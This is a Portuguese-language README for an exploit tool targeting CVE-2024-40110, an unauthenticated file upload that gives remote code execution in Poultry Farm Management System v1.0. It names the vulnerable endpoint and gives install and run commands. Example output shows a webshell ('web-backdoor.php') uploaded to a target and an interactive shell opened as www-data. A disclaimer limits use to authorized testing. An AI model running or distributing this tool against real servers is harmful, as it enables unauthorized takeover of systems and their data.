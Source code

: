 # CVE-2024-40110 - Poultry Farm Management System v1.0 - Remote Code Execution (RCE)

Exploit para a vulnerabilidade **CVE-2024-40110**, que permite **execução remota de comandos (RCE)** sem autenticação no **Poultry Farm Management System v1.0**.  
Esse exploit realiza o upload de uma webshell via endpoint vulnerável e fornece uma shell interativa para execução de comandos no servidor alvo.

---

## 📌 Informações Técnicas

- **Produto vulnerável**: Poultry Farm Management System v1.0  
- **Vulnerabilidade**: Upload de arquivo não autenticado → Execução remota de código  
- **CVE**: [CVE-2024-40110](https://nvd.nist.gov/vuln/detail/CVE-2024-40110)  
- **Endpoint vulnerável**: `/farm/product.php`  
- **Autor original**: Jerry Thomas (w3bn00b3r)  
- **Modificado por**: [shacrony](https://github.com/shacrony)  

---

## ⚙️ Instalação

```bash
git clone https://github.com/shacrony/redcock.py.git
cd redcock.py
Crie um ambiente virtual:

python3 -m venv venv
source venv/bin/activate
Instale as dependências:

pip install -r requirements.txt
Dê permissão de execução (opcional):

chmod +x redcock.py
Como usar:

Execute o script

python3 redcock.py
Digite as informações quando solicitado:

Alvo (ex: http://10.10.10.10): http://10.10.247.190
Diretório do sistema (ex: /farm): /farm
Exemplo de execução

[*] Enviando webshell para: http://10.10.247.190/farm/product.php
[+] Webshell enviada com sucesso!
[+] Shell URL: http://10.10.247.190/farm/assets/img/productimages/web-backdoor.php

[!] Conectado à shell remota. Digite seus comandos abaixo.
[!] Digite 'exit' para sair.

shell$ whoami
www-data

⚠️ Aviso Legal
Este projeto é fornecido somente para fins educacionais e testes em ambientes autorizados.
O uso não autorizado deste exploit pode violar leis locais, nacionais ou internacionais.

Modificado por Chronos
